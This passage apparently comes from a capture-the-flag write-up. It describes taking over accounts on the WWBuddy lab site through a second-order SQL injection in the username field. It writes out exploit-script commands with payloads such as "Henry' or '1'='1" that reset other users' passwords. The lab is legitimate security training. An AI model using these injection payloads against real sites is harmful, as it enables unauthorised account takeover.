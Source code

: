 ```py

if __name__ == "__main__":
    args = parser.parse_args()
    if change_name(args) and not args.name_only:
        change_password(args)
```



Looking at the html, i found this :
```
var users = {"fc18e5f4aa09bbbb7fdedf5e277dda00":"WWBuddy"};
            var uid = "e76fae683aca793df9f141c39cad6c3e";
```

which suggest that the `WWBuddy` account is linked to a real account (maybe the admin ?)
We can potentially change the password for `WWBuddy` somehow.
Maybe with truncation ? There is a hard limit when setting the username tho (50 characters)
Or maybe using `and uid=...` not sure.

Hmmm we get an error when running this `python3 expl.py --name "us' and USER.uid='e76fae683aca793df9f141c39cad6c3e"`
```
Changing username to us' and USER.uid='e76fae683aca793df9f141c39cad6c3e
Error while changing name :

        <span class="help-block">Username error: This username is already taken.</span>
        <button class="editBtn" type="button" onclick="showPage()">Edit Info</button>
```

Hmmmm actually, can't reproduce this :/

Seems to be case sensitive.

Took a break and came back to this about a week later.

It was actually pretty easy to exploit. We can change the name of the admin account `WWBuddy` using this
```
python3 expl.py --name "WWBuddy' or '1'='1"
```

Which will select the user `WWBuddy` and change the password to `password`.

Now we can see other users :
```

var users = {
    "be3308759688f3008d01a7ab12041198":"Henry",
    "b5ea6181006480438019e76f8100249e":"Roberto",
    "fc18e5f4aa09bbbb7fdedf5e277dda00":"WWBuddy",
    "6ccb34104a9f9b136c8d6ccbd8450d71":"WWBuddy' or '1'='1"};
```

Hmmm, we still don't have access to `/admin`. I'm guessing that it's either `Henry` or `Roberto`.

Let's change their password with
```
python3 expl.py --name "Henry' or '1'='1"
python3 expl.py --name "Roberto' or '1'='1"
```
